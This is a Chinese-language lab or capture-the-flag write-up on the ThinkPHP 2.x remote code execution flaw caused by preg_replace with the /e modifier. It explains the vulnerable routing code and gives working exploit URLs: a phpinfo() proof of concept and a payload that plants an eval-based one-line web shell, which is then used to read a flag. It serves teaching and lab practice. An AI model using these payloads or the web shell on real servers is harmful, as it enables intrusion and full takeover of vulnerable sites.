




# ThinkPHP 2.X 任意代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

在 ThinkPHP ThinkPHP 2.x 版本中，使用 preg_replace 的 /e 模式匹配路由：`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

 ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。所以先来看看`preg_replace`这个函数，这个函数是个替换函数，而且支持正则，使用方式如下：

`preg_replace('正则规则','替换字符','目标字符')`

这个函数的3个参数，结合起来的意思是：如果目标字符存在符合正则规则的字符，那么就替换为替换字符，如果此时正则规则中使用了`/e`这个修饰符，则存在代码执行漏洞。

下面是搜索到的关于`/e`的解释：

```
e 配合函数preg_replace()使用, 可以把匹配来的字符串当作正则表达式执行;  
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
```

## Write up

首先打开靶场



利用 POC 来验证, phpinfo() 成功执行。

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```



然后写入一句话

`/index.php?s=/index/index/xxx/${${@eval($_POST[1])}}`

并用菜刀连接



连接完成后去 tmp 临时文件下去查看 Flag


